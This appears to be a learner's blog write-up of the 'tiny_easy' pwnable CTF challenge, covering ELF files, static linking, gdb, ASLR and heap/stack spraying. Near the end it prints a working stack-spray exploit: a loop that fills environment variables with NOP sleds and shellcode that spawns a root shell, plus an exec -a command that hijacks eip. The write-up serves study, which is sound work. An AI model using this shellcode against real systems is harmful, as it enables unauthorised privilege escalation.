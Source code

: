 **tiny_easy**

*I made a pretty difficult pwn task.
However I also made a dumb rookie mistake and made it too easy :(
This is based on real event :) enjoy.*

———————————————–

This was the first Rookiss-level challenge I attempted, and I have been struggling with it for about two weeks now. It involves going into gdb and observing the memory to determine what to do next, but i wasn't able to get past that.

Initially, the challenge asks you to ssh into a pwnable server to start. Going into the server and looking at the directory, we see the following:
image


./images/img1.png

Pretty standard so far. Trying to run ./tiny_easy however, wasn't so easy.
image

Whatever input I tried to give the program, it would always end up as a segmentation fault.

So the natural conclusion I had was to pop it into gdb and see if I could get any more details about what was happening there. Running gdb….
image


.. gave me absolutely nothing.
image

Running a backtrace on the crashed program also yielded nothing.


I needed to find something else, because I was just getting nowhere. I found a tutorial from sheepshellcode.com, which gave me a few more ideas of where to start looking.

Firstly, I ran a file command on the tiny_easy file. I got this for the output:
image

I actually learned a couple things from this. Firstly, I had never heard of an ELF executable, and it turns out that ELF stands for "Executable and Linkable Format". Within Linux, it is the common standard file format for executable files.
image


As that stands, it didn't really tell me much about the file itself, knowing it is just a common standard.

The second thing in the output that was foreign to me was the "statically linked" part. I had honestly never heard of the team before, so I did some googling and read a bit more. A statically linked program is "a set of routines, external functions and variables which are resolved in a caller at compile-time and copied into a target application by a compiler, linker or binder, producing an object-file and a stand-alone executable". From what i can tell, this essentially means that any references to external functions or objects get added in during compile time, so that the executable is a stand-alone package. This would differ from something like a translated language, which runs the program line-by-line.


Once I had done this, I continued reading and found that the tutorial used a command called readelf, which essentially read the header of the file.
image


This gave a bit more information about the file, but still didn't really help. I used gdb to set a breakpoint at the Entry point address that was given in the findelf command. When I ran it with gdb, the program hadn't segfaulted yet, which was kind of expected since the program wouldn't have started.


I was again stuck, and truthfully reading through his solution I'm not sure if I woiuld be able to get it without quite a bit more research and practice into doing these kinds of challenges.

He eventually finds that by modifying the value of the first 4 characters of argv[0] with a exec -a command will allow us to change the value of the register eip.

He introduces another technique called "heap spraying" that I had never heard of, but which makes sense to me based on the write-up. ASLR (Address Space Layout Randomisation) is a feature that aims to address exploits such as these by randomising the actual location of the program in memory. Therefore, it is hard to make an attack that changes addresses since the attacker does not know where it will be in memory. Heap spraying tries to get around this by putting the malicious code or address in as many places as possible, combined with nops. nops are a blank instruction, and will move to the next instruction if they are hit. Therefore, with this method the chance of hitting the code by random is greatly increased, (and is the reason why the method is called "spraying", since we are simply guessing where it would be).


The tutorial tries spraying the stack instead of the heap, using the following exploit:

|-------EXPLOIT-------|
for i in `seq 1 100`;
do
export A_$i=$(python -c 'print "\x90"*4096 + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xd2\x6a\x0b\x58\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"');
done

Once the stack is sprayed, the following exploit is run, and on the second time hit one of the malicious shellcode operations and gave root access.

exec -a $(python -c 'print "\x90\xd5\x9c\xff"') ./tiny_easy

This was definitely way out of my league, having never heard of many of the tools and techniques used, but I am glad that I attempted it and did some research. I actually learnt quite a bit from looking at a solution, and I will make sure to try a challenge that involves something like heap/stack spraying in the future. 